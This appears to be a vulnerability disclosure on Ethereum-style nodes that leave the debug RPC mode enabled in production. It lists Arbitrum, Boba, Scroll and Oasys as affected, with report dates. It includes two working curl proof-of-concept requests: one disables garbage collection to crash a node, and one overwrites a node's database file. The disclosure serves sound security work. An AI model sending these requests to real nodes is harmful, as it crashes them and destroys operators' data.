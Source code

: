 # Misconfiguration of Ethereum RPC Series 1: RPC Debug Mode Enabled

## Vulnerability Details

### Description

The RPC debug mode, designed for development purposes, is often unintentionally enabled in production environments. This exposes sensitive debug RPC methods that attackers can exploit to compromise blockchain nodes.

### Potential Exploits

1. **Disabling Garbage Collection**  
   Using the `debug_setGCPercent` method with a negative value, attackers can disable the garbage collector. This leads to rapid memory consumption, eventually crashing the node due to memory exhaustion.

   ```bash
   curl --data '{"method":"debug_setGCPercent","params":[-1],"id":1,"jsonrpc":"2.0"}' -H "Content-Type: application/json" -X POST http://localhost:8547
   ```

2. **Overwriting Server Files**  
   Exploiting the `debug_goTrace` method, attackers can overwrite arbitrary files on the server. For example:
   - Overwriting database files may corrupt critical data and crash the node.
   - Overwriting system files may render the server inoperable.

   ```bash
   curl --data '{"method":"debug_goTrace","params":["~/.arbitrum/nitro/l2chaindata/000002.ldb" ,1],"id":1,"jsonrpc":"2.0"}' -H "Content-Type: application/json" -X POST http://localhost:8547
   ```

## Impact

- **Node Crashes**: Nodes can be forcefully terminated by exhausting memory resources.
- **Data Corruption**: Essential server files, such as database or configuration files, can be irreversibly damaged, leading to potential data loss and extended downtime.

## Affected Vendors

- **Scroll Testnet**: Reported in <span style="color:blue;">December 2023</span>, but no response was received.  
- **Boba Network Mainnet**: Reported in <span style="color:blue;">March 2023</span> and confirmed as <span style="color:red;">low severity</span>.  
- **Oasys Testnet**: Reported in <span style="color:blue;">March 2023</span>, but no response was received.  
- **Arbitrum Mainnet**: Reported in <span style="color:blue;">October 2022</span> and confirmed as <span style="color:red;">high severity</span>.  

